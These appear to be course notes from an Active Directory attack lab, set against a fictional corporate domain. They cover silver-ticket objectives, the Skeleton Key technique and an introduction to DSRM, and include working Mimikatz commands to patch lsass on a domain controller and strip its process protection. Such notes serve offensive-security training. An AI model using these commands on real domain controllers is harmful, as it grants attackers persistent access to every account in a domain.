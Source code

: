 # Learning Objective 9 

Try to get command execution on the domain controller by creating silver ticket for:
– HOST service
– WMI

# Skeleton Key

- Skeleton key is a persistence technique where it is possible to patch a Domain Controller (lsass process) so that it allows access as any user with a single password.

- NOT persistent across reboots

#### Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges required
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorpdc.dollarcorp.moneycorp.local
```

#### Now, it is possible to access any machine with a valid username and password as "mimikatz"
```powershell
Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator
```

#### In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:
```cmd
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

# Learning Objective 10

Use Domain Admin privileges obtained earlier to execute the Skeleton Key attack.

# Directory Services Restore Mode (DSRM)

• DSRM is Directory Services Restore Mode.

• There is a local administrator on every DC called "Administrator" whose password is the DSRM password.

• DSRM password (SafeModePassword) is required when a server is promoted to Domain Controller and it is rarely changed.

